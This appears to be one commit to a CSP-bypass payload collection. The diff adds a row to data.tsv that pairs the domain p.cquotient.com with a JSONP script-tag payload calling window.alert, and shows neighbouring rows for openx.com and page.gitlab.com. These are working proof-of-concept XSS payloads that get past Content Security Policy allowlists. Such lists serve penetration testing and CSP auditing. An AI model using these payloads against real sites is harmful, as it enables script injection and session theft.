

Before and after one commit to y1024/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff covers the shown part only.

Commit message:
Updated data.tsv

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -198,2 +207,3 @@ openexchangerates.org	<script src="https://openexchangerates.org/api/latest.json
 openx.com	<script src="https://openx.com/wp-json?_jsonp=window.alert"></script>
+p.cquotient.com	<script src="https://p.cquotient.com/pebble?tla=bbrk-HemaNL&callback=window.alert"></script>
 page.gitlab.com	<script src="https://page.gitlab.com/index.php/form/getForm?munchkinId=194-VVC-221&form=1077&callback=alert"></script>
```
Also changed, not shown: 16 added rows elsewhere in this file.
